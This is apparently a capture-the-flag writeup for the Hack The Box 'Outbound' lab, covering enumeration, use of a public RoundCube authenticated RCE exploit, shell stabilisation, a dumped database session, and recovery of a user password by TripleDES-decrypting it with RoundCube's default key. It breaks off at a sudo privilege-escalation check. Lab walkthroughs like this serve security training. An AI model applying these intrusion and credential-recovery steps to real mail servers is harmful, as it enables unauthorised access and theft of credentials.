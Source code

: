 ### Active Linux Easy Box

## Writeup

# Enumeration

Initial Nmap Scan

```bash
# Nmap 7.94SVN scan initiated Sun Jul 20 04:23:26 2025 as: nmap -sCV -oN nmap.txt -vv 10.10.11.77
Nmap scan report for 10.10.11.77
Host is up, received echo-reply ttl 63 (0.011s latency).
Scanned at 2025-07-20 04:23:26 CDT for 7s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN9Ju3bTZsFozwXY1B2KIlEY4BA+RcNM57w4C5EjOw1QegUUyCJoO4TVOKfzy/9kd3WrPEj/FYKT2agja9/PM44=
|   256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH9qI0OvMyp03dAGXR0UPdxw7hjSwMR773Yb9Sne+7vD
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 20 04:23:33 2025 -- 1 IP address (1 host up) scanned in 7.09 seconds
```

We are in a breached scenario and starting with credentials

tyler:LhKL1o9Nm3X2

Checking the website we see - 
redirect to http://mail.outbound.htb/

Addding to the hosts file,

visiting the website we see a RoundCube mail server, testing credentials for tyler

we can login. Looking for exploits for RoundCube mail v1.6.10 

Found an authenticated RCE exploit - https://github.com/hakaioffsec/CVE-2025-49113-exploit

Testing Exploit, creating a bash reverse shell and hosting it on a webserver

<img width="1041" height="319" alt="image" src="https://github.com/user-attachments/assets/44d54f27-9120-40a2-998f-c8378ee59878" />

Exploit is successful, We have initial foothold on the machine as www-data

Getting a stable shell using -

```
Victim$~ script -qc bash /dev/null
Victim$~ Ctrl+z

Attacker$~ stty raw -echo;fg
```

Now that we have a stable shell we can check if we can su to tyler using the same pw.

Success, we are tyler on the box

Running LinPeas - Interesting finds

1. $config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube
2. we are in a docker

Next lets see if we find anything interesting in the db

We found hashed creds for 3 users and some session info which is b64 encoded

```bash
MariaDB [roundcube]> select * from users;
+---------+----------+-----------+---------------------+---------------------+---------------------+----------------------+----------+---------------------------------------------------+                       
| user_id | username | mail_host | created             | last_login          | failed_login        | failed_login_counter | language | preferences                                       |                       
+---------+----------+-----------+---------------------+---------------------+---------------------+----------------------+----------+---------------------------------------------------+                       
|       1 | jacob    | localhost | 2025-06-07 13:55:18 | 2025-06-11 07:52:49 | 2025-06-11 07:51:32 |                    1 | en_US    | a:1:{s:11:"client_hash";s:16:"hpLLqLwmqbyihpi7";} |                       
|       2 | mel      | localhost | 2025-06-08 12:04:51 | 2025-06-08 13:29:05 | NULL                |                 NULL | en_US    | a:1:{s:11:"client_hash";s:16:"GCrPGMkZvbsnc3xv";} |                       
|       3 | tyler    | localhost | 2025-06-08 13:28:55 | 2025-07-20 09:37:25 | 2025-07-20 09:26:23 |                    1 | en_US    | a:1:{s:11:"client_hash";s:16:"Y2Rz3HTwxwLJHevI";} |                       
+---------+----------+-----------+---------------------+---------------------+---------------------+----------------------+----------+---------------------------------------------------+

MariaDB [roundcube]> select * from session;

<SNIP>
bGFuZ3VhZ2V8czo1OiJlbl9VUyI7aW1hcF9uYW1lc3BhY2V8YTo0OntzOjg6InBlcnNvbmFsIjthOjE6e2k6MDthOjI6e2k6MDtzOjA6IiI7aToxO3M6MToiLyI
7fX1zOjU6Im90aGVyIjtOO3M6Njoic2hhcmVkIjtOO3M6MTA6InByZWZpeF9vdXQiO3M6MDoiIjt9aW1hcF9kZWxpbWl0ZXJ8czoxOiIvIjtpbWFwX2xpc3RfY2
9uZnxhOjI6e2k6MDtOO2k6MTthOjA6e319dXNlcl9pZHxpOjE7dXNlcm5hbWV8czo1OiJqYWNvYiI7c3RvcmFnZV9ob3N0fHM6OToibG9jYWxob3N0IjtzdG9yY
WdlX3BvcnR8aToxNDM7c3RvcmFnZV9zc2x8YjowO3Bhc3N3b3JkfHM6MzI6Ikw3UnYwMEE4VHV3SkFyNjdrSVR4eGNTZ25JazI1QW0vIjtsb2dpbl90aW1lfGk6
MTc0OTM5NzExOTt0aW1lem9uZXxzOjEzOiJFdXJvcGUvTG9uZG9uIjtTVE9SQUdFX1NQRUNJQUwtVVNFfGI6MTthdXRoX3NlY3JldHxzOjI2OiJEcFlxdjZtYUk
5SHhETDVHaGNDZDhKYVFRVyI7cmVxdWVzdF90b2tlbnxzOjMyOiJUSXNPYUFCQTF6SFNYWk9CcEg2dXA1WEZ5YXlOUkhhdyI7dGFza3xzOjQ6Im1haWwiO3NraW
5fY29uZmlnfGE6Nzp7czoxNzoic3VwcG9ydGVkX2xheW91dHMiO2E6MTp7aTowO3M6MTA6IndpZGVzY3JlZW4iO31zOjIyOiJqcXVlcnlfdWlfY29sb3JzX3RoZ
W1lIjtzOjk6ImJvb3RzdHJhcCI7czoxODoiZW1iZWRfY3NzX2xvY2F0aW9uIjtzOjE3OiIvc3R5bGVzL2VtYmVkLmNzcyI7czoxOToiZWRpdG9yX2Nzc19sb2Nh
dGlvbiI7czoxNzoiL3N0eWxlcy9lbWJlZC5jc3MiO3M6MTc6ImRhcmtfbW9kZV9zdXBwb3J0IjtiOjE7czoyNjoibWVkaWFfYnJvd3Nlcl9jc3NfbG9jYXRpb24
iO3M6NDoibm9uZSI7czoyMToiYWRkaXRpb25hbF9sb2dvX3R5cGVzIjthOjM6e2k6MDtzOjQ6ImRhcmsiO2k6MTtzOjU6InNtYWxsIjtpOjI7czoxMDoic21hbG
wtZGFyayI7fX1pbWFwX2hvc3R8czo5OiJsb2NhbGhvc3QiO3BhZ2V8aToxO21ib3h8czo1OiJJTkJPWCI7c29ydF9jb2x8czowOiIiO3NvcnRfb3JkZXJ8czo0O
iJERVNDIjtTVE9SQUdFX1RIUkVBRHxhOjM6e2k6MDtzOjEwOiJSRUZFUkVOQ0VTIjtpOjE7czo0OiJSRUZTIjtpOjI7czoxNDoiT1JERVJFRFNVQkpFQ1QiO31T
VE9SQUdFX1FVT1RBfGI6MDtTVE9SQUdFX0xJU1QtRVhURU5ERUR8YjoxO2xpc3RfYXR0cmlifGE6Njp7czo0OiJuYW1lIjtzOjg6Im1lc3NhZ2VzIjtzOjI6Iml
kIjtzOjExOiJtZXNzYWdlbGlzdCI7czo1OiJjbGFzcyI7czo0MjoibGlzdGluZyBtZXNzYWdlbGlzdCBzb3J0aGVhZGVyIGZpeGVkaGVhZGVyIjtzOjE1OiJhcm
lhLWxhYmVsbGVkYnkiO3M6MjI6ImFyaWEtbGFiZWwtbWVzc2FnZWxpc3QiO3M6OToiZGF0YS1saXN0IjtzOjEyOiJtZXNzYWdlX2xpc3QiO3M6MTQ6ImRhdGEtb
GFiZWwtbXNnIjtzOjE4OiJUaGUgbGlzdCBpcyBlbXB0eS4iO311bnNlZW5fY291bnR8YToyOntzOjU6IklOQk9YIjtpOjI7czo1OiJUcmFzaCI7aTowO31mb2xk
ZXJzfGE6MTp7czo1OiJJTkJPWCI7YToyOntzOjM6ImNudCI7aToyO3M6NjoibWF4dWlkIjtpOjM7fX1saXN0X21vZF9zZXF8czoyOiIxMCI7
</SNIP>

```

decoding the b64 we see jacobs login info, lets try to figure out how we can crack this

Researching online we find that RoundCube uses TripleDES encryption and we can find the encryption key in the config.inc.php file, checking online to see if we find a password cracker.

No pw cracker found, but we can crack this hash manually on CyberChef

first convert the pw from b64 to hex, grab the first 8 bytes, this will be the IV - initialization vector,
we already have the DES key from the config file, and we will input the remaining bytes of the hex in the TripleDES decrypt function to crack

hex - 2f b4 6f d3 40 3c 4e ec 09 02 be bb 90 84 f1 c5 c4 a0 9c 89 36 e4 09 bf
                                                                                                                                                                                                                 To summarize, Triple DESC Decrypt on CyberChef

INPUTS -
Key - rcmail-!24ByteDESkey*Str | UTF8
IV - 2f b4 6f d3 40 3c 4e ec | HEX
Input - 09 02 be bb 90 84 f1 c5 c4 a0 9c 89 36 e4 09 bf
                                                                                                                                                                                                                 Password - 595mO8DmwGeD
It gives us a string - 595mO8DmwGeD

Lets try to see if this was jacobs pw

ityler@mail:/var/www/html/roundcube/config$ su jacob
Password: 595mO8DmwGeD
jacob@mail:/var/www/html/roundcube/config$ id
uid=1001(jacob) gid=1001(jacob) groups=1001(jacob)
jacob@mail:/var/www/html/roundcube/config

Success, we are now user jacob

but we are still in a container, we need some way to escape this, but first lets check jacobs home dir We find emails and a password - gY4Wr3a1evp4

Testing SSH 

```bash
┌─[captainjack09☺htb-wktvn1yxgc]─[~/my_data/machines/outbound/www]
└──╼ $nxc ssh outbound.htb -u jacob -p gY4Wr3a1evp4
SSH         10.10.11.77     22     outbound.htb     [*] SSH-2.0-OpenSSH_9.6p1 Ubuntu-3ubuntu13.12
SSH         10.10.11.77     22     outbound.htb     [+] jacob:gY4Wr3a1evp4  Linux - Shell access!
```

Lets SSH and see if we can escalate

### Privilege escalation

```bash
jacob@outbound:~$ sudo -l
Matching Defaults entries for jacob on outbound:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```

Lets find out what this below command is

